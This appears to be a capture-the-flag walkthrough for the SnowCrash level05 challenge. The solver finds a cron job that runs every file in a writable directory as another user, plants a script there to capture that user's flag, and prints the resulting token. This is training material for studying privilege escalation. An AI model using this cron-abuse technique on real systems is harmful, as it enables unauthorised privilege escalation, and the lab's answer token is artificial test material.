 # level05

- We login as user level05, we can see a notification: `You have new mail`.
```
level05@SnowCrash:~$ ls /var/mail
level05
```

```
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

- It looks like a [Cron](https://en.wikipedia.org/wiki/Cron) instruction. It indicates that every two minutes, the command `/usr/sbin/openarenaserver` will be executed by user flag05.
```
level05@SnowCrash:~$ ls -l /usr/sbin/openarenaserver
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
```

- Let's `cat /usr/sbin/openarenaserver`:
```shell
#!/bin/sh

for i in /opt/openarenaserver/* ; do
 (ulimit -t 5; bash -x "$i")
 rm -f "$i"
done
```


- This shell script runs `bash -x` on all the items present in the directory `/opt/openarenaserver/`, with a fixed limit of 5 seconds for each execution. Afterward, the respective item is deleted, so:
```
level05@SnowCrash:~$ echo "getflag > /tmp/flag2level06" > /opt/openarenaserver/exploit.sh
```

```
level05@SnowCrash:~$ chmod +x /opt/openarenaserver/exploit.sh
```

```
level05@SnowCrash:~$ cat /tmp/flag2level06
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

```
level05@SnowCrash:~$ su level06
Password:viuaaale9huek52boumoomioc
level06@SnowCrash:~$
```